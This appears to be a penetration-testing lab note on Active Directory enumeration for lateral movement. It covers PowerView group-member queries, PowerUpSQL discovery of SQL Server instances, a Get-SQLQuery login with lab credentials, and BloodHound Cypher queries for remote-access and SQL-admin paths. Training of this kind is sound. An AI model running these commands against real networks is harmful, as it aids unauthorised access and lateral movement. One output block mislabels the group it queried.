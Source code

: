 
#### Using [[PowerView]]

###### [[Remote Desktop]] Users Group

```powershell-session
Get-NetLocalGroupMember -ComputerName MS01 -GroupName "Remote Desktop Users"
```
```
Output
ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Management Users
MemberName   : INLANEFREIGHT\forend
SID          : S-1-5-21-3842939050-3880317879-2865463114-5614
IsGroup      : False
IsDomain     : UNKNOWN
```

###### [[WinRM]]

```powershell-session
Get-NetLocalGroupMember -ComputerName MS01 -GroupName "Remote Management Users"
```

```powershell-session
ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Management Users
MemberName   : INLANEFREIGHT\forend
SID          : S-1-5-21-3842939050-3880317879-2865463114-5614
IsGroup      : False
IsDomain     : UNKNOWN
```

###### Enumerating [[MSSQL]] Instances with [[PowerUpSQL]]
```powrshell-session
Import-Module .\PowerUpSQL.ps1
```

```powershell-session
Get-SQLInstanceDomain
```

```powershell-session

ComputerName     : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL
Instance         : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL,1433
DomainAccountSid : 1500000521000170152142291832437223174127203170152400
DomainAccount    : damundsen
DomainAccountCn  : Dana Amundsen
Service          : MSSQLSvc
Spn              : MSSQLSvc/ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL:1433
LastLogon        : 4/6/2022 11:59 AM
```

###### Running commands against SQL Server
```powershell-session
Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```

```powershell-session
VERBOSE: 172.16.5.150,1433 : Connection Success.

Column1
-------
Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64) ...
```
#### Using BloodHound

###### Custom Cypher Query WinRM
```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

###### SQL Server Admin
```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```
###### Analysis/Prebuilt
`Find Workstations where Domain Users can RDP` 
`Find Servers where Domain Users can RDP`
`SQL Admin Rights` in the `Node Info` tab